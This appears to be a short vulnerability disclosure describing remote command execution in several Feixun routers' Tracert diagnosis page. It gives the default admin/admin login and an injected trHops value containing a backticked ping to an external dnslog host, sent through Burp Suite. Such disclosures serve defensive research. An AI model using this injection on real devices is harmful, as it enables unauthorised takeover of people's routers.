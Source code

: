 The FIR151B A2、FIR302E A2、FIR300B A2 and so on routers has remote command execution

1. Login feixun FIR151B A2 router by default password admin /admin

2. Find the system tool → system diagnosis → Tracert → IP address / domain name. There is remote command execution at Tracert
![image](https://user-images.githubusercontent.com/96364879/182759089-f95ec4e2-d5e6-4907-a037-8a5db691fb6a.png)

3. Enter the website IP at the IP address / domain name, for example: 8.8.8.8

4. Click Start diagnosis

5. Use burpsuite intercept and change trHops argument to 20`ping -c 3 abcdef.r4y19h.dnslog.cn`, forward this request
![image](https://user-images.githubusercontent.com/96364879/182764151-6c698b75-57cf-4419-8bd0-c6064a1fbd57.png)

6. See the dnslog results, The command has been executed successfully
![image](https://user-images.githubusercontent.com/96364879/182764276-d13fab74-97fe-4b25-8991-a014f437ea2d.png)

